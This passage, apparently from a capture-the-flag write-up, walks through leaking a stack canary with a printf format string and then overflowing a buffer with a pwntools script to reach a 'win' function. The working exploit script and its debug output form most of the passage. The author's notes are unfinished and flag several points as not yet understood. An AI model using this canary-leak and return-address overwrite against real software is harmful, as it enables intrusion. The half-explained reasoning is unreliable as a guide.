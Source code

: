 Because of this, the canary is the 13th value accessed from printf. To print only this value, `%13$p` can be inputed.

When running the program:

```
Is it just me, or is there an echo in here?
%13$p
0x57be0704c7018d00
```
The value of the canary is returned by the program

## Part 2 : Crafting the exploit with pwntools
### The buffer overflow 
By looking at the echo function, we can see that the buffer echo is 32 bytes wide. Following it is the canary (8 bytes), the EIB ? TO LOOKUP ! register and then the return adress, which we want to overwrite by the win function.
A look at ghidra's assembly code makes it even clearer:
```



```
With all this elements, an exploit script can be written


### The exploit script
```py 
from pwn import *

elf = ELF("./runway3")

context.binary = elf
context.log_level = "DEBUG"

#p = remote("challs.pwnoh.io",13403)
p = elf.process()

offset = 0x28 ################## WHY THIS OFFSET
p.recvline()
p.sendline(b"%13$lu") # prints it as a decimal instead as a hex for a pointer, taking 8 bytes (long unsigned)
# canary = int(p.recvline().strip(),16) # if %p is used instead of %lu
canary = int(p.recvline().strip())
print(f"found canary's value is: {hex(canary)}")

payload = b'A'*offset + p64(canary) + b'B'*8 + p64(elf.symbols['win'])
p.sendline(payload)
p.recvall()
p.interactive()
```
By running the given script, the following output is returned :
```
[DEBUG] Received 0x45 bytes:
    b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaYou win! Here is your shell:\n'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
The canary was dealt with, the buffer overflow exploited and the win function was executed successfully, so we have our shell, right ?
Sadly, things aren't that simple, and instead of a shell, a EOF (end of file) is returned by the binary, and so the shell can't be accessed. ## THE PROGRAM CRASHES ?
